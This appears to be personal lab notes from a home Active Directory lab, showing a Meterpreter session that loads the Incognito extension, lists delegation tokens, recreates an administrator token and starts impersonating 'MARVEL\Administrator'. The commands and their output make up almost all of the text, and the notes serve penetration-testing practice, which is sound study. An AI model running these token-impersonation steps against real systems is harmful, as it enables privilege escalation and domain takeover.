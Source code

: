 load espia    load incognito  load lanattacks load powershell load python   load stdapi   load winpmem<br/>
load extapi   load kiwi    load peinjector load priv    load sniffer   load unhook   <br/>
meterpreter &gt; load Interrupt: use the 'exit' command to quit<br/>
meterpreter &gt; load incognito<br/>
<br/>
INCOGNITO HELP<br/>
<br/>
Incognito Commands<br/>
==================<br/>
<br/>
  Command       Description<br/>
  -------       -----------<br/>
  add_group_user    Attempt to add a user to a global group with all tokens<br/>
  add_localgroup_user Attempt to add a user to a local group with all tokens<br/>
  add_user       Attempt to add a user with all tokens<br/>
  impersonate_token  Impersonate specified token<br/>
  list_tokens     List tokens available under current user context<br/>
  snarf_hashes     Snarf challenge/response hashes for every token<br/>
<br/>
<br/>
meterpreter &gt; list_tokens -u<br/>
<br/>
Delegation Tokens Available<br/>
========================================<br/>
Font Driver Host\UMFD-0<br/>
Font Driver Host\UMFD-1<br/>
MARVEL\lhowlette<br/>
NT AUTHORITY\LOCAL SERVICE<br/>
NT AUTHORITY\NETWORK SERVICE<br/>
NT AUTHORITY\SYSTEM<br/>
Window Manager\DWM-1<br/>
<br/>
<br/>
Note &gt; seems admin is not on this machine. could be due to the length of time since building machine and now running attack. I will try get admin back on the machine and re attack.<br/>
<br/>
<br/>
So after logging out of user. reloaggin in as admin. logging out as admin. back in as user and reconducting the attack... <br/>
the system now how a fresh administrator token.<br/>
<br/>
meterpreter &gt; load incognito <br/>
Loading extension incognito...Success.<br/>
meterpreter &gt; list_tokens -u<br/>
<br/>
Delegation Tokens Available<br/>
========================================<br/>
Font Driver Host\UMFD-0<br/>
Font Driver Host\UMFD-3<br/>
<b>MARVEL\Administrator</b><br/>
MARVEL\lhowlette<br/>
NT AUTHORITY\LOCAL SERVICE<br/>
NT AUTHORITY\NETWORK SERVICE<br/>
NT AUTHORITY\SYSTEM<br/>
Window Manager\DWM-3<br/>
<br/>
Impersonation Tokens Available<br/>
========================================<br/>
No tokens available<br/>
<br/>
meterpreter &gt; <br/>
<br/>
meterpreter &gt; impersonate_token MARVEL\\administrator<br/>